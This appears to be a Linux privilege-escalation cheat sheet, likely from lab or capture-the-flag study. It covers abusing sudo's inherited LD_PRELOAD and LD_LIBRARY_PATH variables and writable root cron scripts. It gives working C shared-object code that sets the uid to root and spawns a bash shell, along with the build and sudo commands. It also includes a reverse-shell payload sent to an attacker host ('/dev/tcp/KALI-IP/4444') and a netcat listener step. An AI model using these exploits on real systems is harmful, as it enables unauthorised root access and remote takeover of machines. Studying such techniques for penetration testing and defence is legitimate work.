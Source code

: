 ### Environment Variables
+ sudo can inherit certain environment variables from the user's environment.
+ Use `sudo -l` to find `LD_PRELOAD` and `LD_LIBRARY_PATH` being inherited by sudo.
+ `LD_PRELOAD` -> loads a shared object before any others when a program is run
+ `LD_LIBRARY_PATH` -> provides a list of directories where shared libraries are searched for first.
+ Create a shared object using following command:
	- `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/preload.c` 
		```
		#include <stdio.h>
		#include <sys/types.h>
		#include <stdlib.h>

		void _init() {
			unsetenv("LD_PRELOAD");
			setresuid(0,0,0);
			system("/bin/bash -p");
		}
		```
+ Set `LD_PRELOAD` env variable to the full path of the new shared object and run any sudo permitted program:
	- `sudo LD_PRELOAD=/tmp/preload.so vim`
+ Spawns a root shell.
+ List shared libraries using:
	- `ldd /usr/sbin/apache2`
+ Create a shared object with the same name as one of the libraries:
	- `gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/library_path.c`
		```
		#include <stdio.h>
		#include <stdlib.h>

		static void hijack() __attribute__((constructor));

		void hijack() {
			unsetenv("LD_LIBRARY_PATH");
			setresuid(0,0,0);
			system("/bin/bash -p");
		}
		```
+ Run apache2 while setting `LD_LIBRARY_PATH` env variable:
	- `sudo LD_LIBRARY_PATH=/tmp apache2`

## Cron Jobs
### File Permissions
+ View the contents of system-wide crontab using `cat /etc/crontab`.
+ There are multiple scripts running as root.
+ Modify `overwrite.sh` with following payload to pop a reverse shell:
	```
	#!/bin/bash 
	bash -i >& /dev/tcp/KALI-IP/4444 0>&1
	```
+ Start a netcat listener on attacker machine and catch the reverse shell.
